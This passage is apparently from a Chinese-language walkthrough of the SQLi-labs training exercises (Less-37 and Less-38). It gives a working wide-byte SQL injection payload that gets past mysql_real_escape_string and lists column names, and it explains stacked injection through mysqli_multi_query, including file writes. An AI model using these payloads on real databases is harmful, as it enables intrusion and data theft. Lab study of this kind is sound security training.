 ### Less-37：POST-Bypass MySQL\_real\_escape\_string

**注入类型**

宽字节注入

**闭合方式**

id='\$id'

```sql
uname=1%df' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name=(select table_name from information_schema.tables where table_schema=database() limit 1,1 ))#
```

![](file/image_f9jHh_PbGn.png)

### Less-38：Future Editions

**注入类型**

堆叠注入

**闭合方式**

id='\$id'

> 源码中使用了\*\*`mysqli_multi_query()`\*\* 执行sql语句，所以可以同时执行多条sql语句（用\*\*​`;`**分开），但是只有第一句sql语句会有回显，所以这里使用写入文件，也可以使用**`update`\*\*等函数
